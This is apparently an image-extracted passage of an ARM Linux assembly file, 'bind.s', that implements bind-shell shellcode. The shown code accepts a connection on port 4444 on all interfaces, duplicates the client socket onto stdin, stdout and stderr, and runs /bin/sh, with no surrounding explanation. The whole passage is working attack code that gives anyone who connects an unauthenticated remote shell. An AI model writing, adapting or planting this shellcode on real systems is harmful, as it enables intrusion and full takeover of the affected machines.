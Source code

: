 ```s title:bind.s
    mov r2, #0      // NULL addrlen
    mov r7, #285    // accept syscall number
    svc #0
    // Check for errors
    cmp r0, #0
    blt error
    mov r5, r0      // Save client fd in r5

    // ========== REDIRECT STDIN/OUT/ERR ==========
    // dup2(clientfd, 0)
    mov r0, r5      // client fd
    mov r1, #0      // STDIN
    mov r7, #63     // dup2 syscall
    svc #0

    // dup2(clientfd, 1)
    mov r0, r5      // client fd
    mov r1, #1      // STDOUT
    svc #0

    // dup2(clientfd, 2)
    mov r0, r5      // client fd
    mov r1, #2      // STDERR
    svc #0

    // ========== EXECUTE SHELL ==========
    // execve("/bin/sh", NULL, NULL)
    adr r0, shell   // Pointer to "/bin/sh"
    mov r1, #0      // NULL argv
    mov r2, #0      // NULL envp
    mov r7, #11     // execve syscall
    svc #0

error:
    // Simple error handling - just exit
    mov r7, #1      // exit syscall
    svc #0

// Data Section
sockaddr:
    .short 0x2      // AF_INET = 2
    .short 0x5c11   // Port 4444 (0x115c in network byte order)
    .word 0x0       // INADDR_ANY = 0 (0.0.0.0)

shell:
    .asciz "/bin/sh"  // Null-terminated string
    
```


A bind shell:
